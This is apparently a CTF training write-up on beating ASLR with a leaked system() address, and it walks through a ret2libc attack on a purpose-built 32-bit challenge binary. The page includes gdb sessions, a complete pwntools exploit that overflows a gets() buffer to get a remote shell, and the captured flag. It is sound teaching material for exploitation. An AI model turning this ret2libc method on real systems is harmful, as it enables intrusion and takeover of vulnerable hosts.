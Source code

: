 ```yaml
---
description: Beating ASLR with a provided leak.
---
```


# groundzero

{% file src="../../.gitbook/assets/groundzero.zip" %}

This binary, we will be beating ASLR using a provided leak. This will be very similar to [_gimme_](../06-pie/gimme.md), but in this case, we are beating ASLR instead of PIE.

To bypass ASLR, we need the address of a function _inside the library_. This means the function must be a **PLT** function rather than one defined inside the binary. Common examples of functions to leak are `system()`, `printf()`, or `puts()`.

### Checking Security

Let's start with running `checksec`:

```bash
$ checksec ./groundzero
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/groundzero/src/groundzero'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
```

We notice that ASLR is not part of this description! This is because the binary _does not know that ASLR is turned on_ because the binary is not affected by ASLR. Only the libraries are affected by ASLR.

{% hint style="danger" %}
The direct consequence of this is that **we will never know if ASLR is turned on for a remote server**. If we write an exploit that ignores ASLR and it doesn't work, we should assume that ASLR is probably enabled, and we will need to leak the `libc` base address to fix our exploit.
{% endhint %}

We also notice no canary, meaning stack overflow exploits are possible. PIE is enabled, but this won't be problematic (_be sure you understand why!_).

### Attack Vector Inspiration

Let's step through `gdb` and see what we can find.

We first notice there is no `win()` function. However, `system@plt` is in the binary, meaning we'll most likely need to call that ourselves. We did something like this in the ROP challenges. We will need an argument to pass to `system()`, which is usually either `/bin/sh` or `cat flag.txt`. If we check for either of those already being in the binary:

```bash
gef➤  search-pattern "/bin/sh"
[+] Searching '/bin/sh' in memory
[+] In '/usr/lib/i386-linux-gnu/libc.so.6'(0xf7da2000-0xf7e27000), permission=r--
  0xf7dbd0f5 - 0xf7dbd0fc  →   "/bin/sh" 
gef➤  search-pattern "cat flag.txt"
[+] Searching 'cat flag.txt' in memory
```

`/bin/sh` is in memory! This means we just need to pass its address into `system()` and we'll achieve a shell.

Now that we have the attack vector inspiration, we must execute it. We need a way to leak the `libc` base address so that we know the address of `system()` and `"/bin/sh"`. Then, we need to overflow the buffer and call our `system()` function.

### Static Analysis

If we check `read_in`, there is a call to `printf`. Before this call, there are two items pushed on the stack:

```as
   0x565561e8 <+27>:	push   eax
   0x565561e9 <+28>:	lea    eax,[ebx-0x1fbc]
   0x565561ef <+34>:	push   eax
=> 0x565561f0 <+35>:	call   0x56556050 <printf@plt>
```

If we check the data that is in the top two entries of the stack:

```as
gef➤  x/2wx $esp
0xffffd550:	0x56557008	0xf7c48150
gef➤  x/s 0x56557008
0x56557008:	"System is at: %lp\n"
gef➤  x/wx 0xf7c48150
0xf7c48150 <system>:	0xfb1e0ff3
```

We see that this print statement is printing the address of `system()`! Since this function resides in the `libc` binary, this means that we can use it to leak `libc`.

After this, there is a `gets()` call that has us writing to `ebp-0x34`:

```as
   0x5655620f <+66>:	lea    eax,[ebp-0x34]
   0x56556212 <+69>:	push   eax
=> 0x56556213 <+70>:	call   0x56556070 <gets@plt>
```

This gives us everything we need to write our exploit. We have a way to leak `libc`, then a way to overflow the buffer.

### Exploit

There are two ways to write the exploit.

1. Get all the offsets from `gdb` and use those to get the base address, then find the offset of `/bin/sh` and use that as the argument.
2. Get pwntools to do it all for you and save the hassle of collecting all the information yourself.

We're going to go with the second option. The first one is a good challenge to the reader to test their mastery of `gdb` and writing exploits. The second one will mimic the way we wrote PIE exploits.

We'll start by defining our binary and process. We must define a variable called `libc` (or something similar) that's valued at `elf.libc`. This will let us set our base address once we leak it.

{% hint style="info" %}
This is the same way that we use `elf.address` to define the base address before we called any functions.
{% endhint %}

```python
elf = context.binary = ELF('./groundzero')
libc = elf.libc
proc = remote('vunrotc.cole-ellis.com', 6100)
```

From here, we'll collect the leak from the output and set the base address. When we do this, the functions and addresses will be based on `libc` rather than `elf`, because that is the binary being randomized.

```python
# get the leak
proc.recvuntil('at: ')
leak = int(proc.recvline(), 16)

# get address
libc.address = leak - libc.sym.system
print(f"LIBC leaked! {hex(libc.address)}")
```

I recommend getting in the habit of printing leaks when they happen so you can verify that your code is working. Then, you can verify the accuracy of the leak.

From here, we'll write the exploit.

* We can get the address of `system` using `libc.sym.system`.
* We can get the address of `/bin/sh` using `next(libc.search('/bin/sh'))`. _Why does this work?_ `libc.search()` returns a _generator object_ of all the addresses of the string `/bin/sh`. This is Python's equivalent of an iterator. To get the first address, we can use `next()` to get the first object.

```python
payload = b'A' * 56
payload += p32(libc.sym.system)
payload += p32(0x0)
payload += p32(next(libc.search(b'/bin/sh')))
```

Finally, we'll send the payload and drop into an interactive shell.

```python
proc.sendline(payload)
proc.interactive()
```

If we run this, we'll get a shell, and we can call `cat flag.txt` to get the flag.

```bash
$ python3 exploit.py
[*] '/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/groundzero/src/groundzero'
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    No canary found
    NX:       NX enabled
    PIE:      PIE enabled
[*] '/usr/lib/i386-linux-gnu/libc.so.6'
    Arch:     i386-32-little
    RELRO:    Partial RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      PIE enabled
[+] Opening connection to vunrotc.cole-ellis.com on port 6100: Done
/home/joybuzzer/Documents/vunrotc/public/binex/07-aslr/groundzero/src/exploit.py:8: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  proc.recvuntil('at: ')
LIBC leaked! 0xf7d35000
[*] Switching to interactive mode
$ cat flag.txt
flag{welcome_to_reality}
```

### Putting a Formal Name

This process is also known as a `ret2libc`. The `ret2libc` exploit involves getting the address of a function inside the `libc` binary (we almost always pick `system`), and then jump to that function. The most common form of the `ret2libc` exploit is to jump to `system()` and pass `/bin/sh` as the argument. This is what we did in this exploit.

Since ASLR was enabled, we had to beat ASLR and then perform the `ret2libc`. ASLR is not always enabled for it to be a `ret2libc` exploit. If ASLR is not enabled, we can just jump to `system()` and pass `/bin/sh` as the argument.

Later on, we'll introduce another technique called the `ret2plt`, which beats ASLR but jumps to a location on the PLT table instead of the function itself. This is useful when we don't have a leak, but we know the address of a function in the PLT table. We'll cover this at the end of the ASLR section.
